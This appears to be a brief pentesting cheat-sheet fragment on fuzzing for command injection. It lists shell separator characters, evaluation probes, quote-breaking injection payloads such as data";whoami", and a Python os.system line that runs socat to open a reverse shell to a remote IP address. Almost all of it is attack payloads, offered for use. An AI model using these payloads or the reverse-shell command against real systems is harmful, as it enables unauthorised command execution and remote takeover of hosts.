 #### Fuzzing

```
#Special Characters
;
&
&&
|
||

#Evaluation
1+1
1*1

#Python
os.system('socat TCP:192.168.118.8:18000 EXEC:sh')
```

#### Notes
Remember to try closing off the original query using quotes:

```
Example: data";whoami"
Example: data"&whoami"
```


